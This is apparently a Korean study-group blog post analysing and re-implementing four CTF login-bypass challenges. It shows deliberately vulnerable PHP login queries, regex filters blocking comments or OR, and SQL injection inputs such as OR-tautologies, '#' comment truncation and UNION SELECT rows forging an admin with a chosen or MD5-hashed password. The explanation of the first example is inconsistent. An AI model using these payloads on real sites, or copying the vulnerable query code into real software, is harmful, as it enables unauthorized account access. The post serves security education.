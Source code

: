 ```yaml
---
title: 모의해킹 스터디 5주차 CTF 문제 분석 및 구현
author: leewoojin
date: 2025-05-03 00:00:00 +0900
categories: [Pentest, W5]
tags: [SQLi, 로그인우회, CTF, 웹보안]
---
```


> ⚠️ *본 실습 콘텐츠는 노말틱님의 해킹 스터디 CTF 문제를 기반으로 재구성하였으며, 학습 및 교육 목적에 한해 사용됩니다.*

이번 글에서는 해당 문제를 분석하고, 동일한 취약점을 기반으로 문제를 직접 구현해봄으로써, 

**SQL Injection이 로그인 로직에 어떻게 적용되고 동작하는지를 내부 구조 수준에서 심층적으로 이해**하고자 합니다.

---

##  메인 페이지

1~3주차 학습 내용을 기반으로, ChatGPT와 함께 CTF 메인 화면을 구현해봤습니다.

![CTF 메인 이미지](https://github.com/user-attachments/assets/f12dd9ea-aae6-4feb-b393-71e5dc85d3e6)
![플래그 이미지](https://github.com/user-attachments/assets/702b05d6-ab5d-4a77-9508-b4ad1191f877)

---

## 🔐 Login Bypass 1

이 문제에서는 **OR 허용**, **주석 차단**, 그리고 **식별/인증을 동시에 만족시키는 조건을 우회**하는 문제입니다.

### ✅  로그인 로직

이번 문제의 로그인 로직은 다음과 같이 구성되어 있습니다:

```php
$sql = "SELECT * FROM ctf_users1 WHERE id='$id' AND pass='$pw'";
```

> 이 구조는 사용자 입력값을 직접 쿼리에 삽입하고 있으며, `OR` 조건이 포함되어 있어 **입력값 조작만으로도 쉽게 인증 우회가 가능합니다.**

### ✅ 주석 기반 우회를 차단하는 필터링

기존 문제와 유사한 환경을 만들기 위해, `id` 입력값에서 주석 사용을 차단합니다:

```php
if (preg_match("/--|#|\/\*/i", $id)) {
  $row = false; // 강제로 로그인 실패 처리
}
```

> 📌 이렇게 하면 `'admin'#`, `'admin'--` 등의 주석 기반 우회가 차단됩니다.

### ✅ 우회 입력 예시

- **ID**: `admin1' or '1'='1`
- **PW**: (아무 값)

최종 실행되는 쿼리는 다음과 같습니다:

```sql
SELECT * FROM ctf_users1 WHERE (id='admin') OR ('1'='1' AND pass='아무거나');
```

> 이 쿼리는 ID가 DB에 존재하고, 비밀번호까지 일치할 경우에만 로그인에 성공할 수 있습니다.

![우회 입력 예시](https://github.com/user-attachments/assets/23dff875-8844-4db7-8753-3438356e1196)

## 🔐 Login Bypass 2

이 문제에서는 **OR 차단**, **주석 허용**, 그리고 **식별/인증을 동시에 만족시키는 조건을 우회**하는 문제입니다.

### ✅ 로그인 로직

`Login Bypass 1`과 동일한 SQL 쿼리가 사용됩니다:

그러나 이번 문제에서는 `OR` 키워드만 필터링하고, 주석은 허용합니다:

```php
if (preg_match("/\bor\b/i", $id) || preg_match("/\bor\b/i", $pw)) {
  $row = false; // 강제 로그인 실패
}
```

> 이렇게 하면 `' OR '1'='1`과 같은 논리 연산 기반 우회는 차단되며, `'admin'#` 또는 `'admin'--` 등 주석 기반 우회는 여전히 가능합니다.

---
### ✅ 우회 입력 예시

- **ID**: `admin'#`
- **PW**: (아무 값)

최종 실행되는 쿼리는 다음과 같습니다:

```sql
SELECT * FROM ctf_users1 WHERE id='admin'# AND pass='아무거나';
```

> `#` 주석 기호로 인해 `pass='...'` 부분이 무시되어, **ID만 일치하면 로그인 성공**합니다.

![주석 우회 예시](https://github.com/user-attachments/assets/a08df5f0-1ee8-4172-88cb-68ae6f52cf8e)

## 🔐 Login Bypass 3

이 문제에서는 **식별과 인증 로직이 분리되어 있는 구조**를 악용하여 `UNION SELECT`를 통해 **임의의 사용자 행을 결합해 인증을 우회**하는 문제입니다. 

### ✅ 로그인 로직

이번 문제의 로그인 로직은 다음과 같이 구성되어 있습니다:

```php
// 사용자 조회 (식별 단계)
$sql = "SELECT * FROM ctf_users3 WHERE id='$id'";
$result = mysqli_query($conn, $sql);
$row = mysqli_fetch_array($result);

// 비밀번호 확인 (인증 단계)
if ($row && $row['pass'] === $pw) {
    // 로그인 성공
}
```

> DB 쿼리에서는 `id`만 검증하고, 비밀번호는 PHP 로직에서 비교하기 때문에,공격자가 SQL Injection을 통해 `UNION SELECT`로 위조된 사용자 정보를 주입할 수 있습니다.


### ✅ 우회 입력 예시
예를 들어 아래와 같이 입력하면:

![UNION 우회 예시](https://github.com/user-attachments/assets/1d294a3f-3f5e-4e11-b6c6-7994e7694283)

최종적으로 실행되는 SQL 쿼리는 다음과 같습니다:

```sql
SELECT * FROM ctf_users3 WHERE id='' union select 'admin', '111';
```

> WHERE id=' ' 조건이 실패한 후, UNION SELECT 'admin' , '111'으로 생성된 가짜 행이 반환되어, PHP 코드에서 row['pass'] 비교를 통해 로그인 우회가 가능합니다.


## 🔐 Login Bypass 4

이이 문제는 **Login Bypass 3**에서 사용된 `인증/식별 분리 구조`에  
**MD5 해시 기반의 비밀번호 검증**을 결합한 실습 문제입니다. 

### ✅ 로그인 로직
```php
if ($row && $row['pass'] === md5($pw)) {
    // 로그인 성공
}
```
> id는 DB에서 조회되고, pass는 PHP 코드에서 md5() 함수로 비교됩니다.

### ✅ 우회 입력 예시

<img width="469" alt="Image" src="https://github.com/user-attachments/assets/adf55651-f2b4-4626-ba4a-b957868a17c0" />

최종적으로 실행되는 SQL 쿼리는 다음과 같습니다:

```sql
SELECT * FROM ctf_users4 WHERE id='' UNION SELECT 'admin', '698d51a19d8a121ce581499d7b701668';
```
> 698d51a19d8a121ce581499d7b701668는 문자열 '111'의 MD5 해시값입니다.












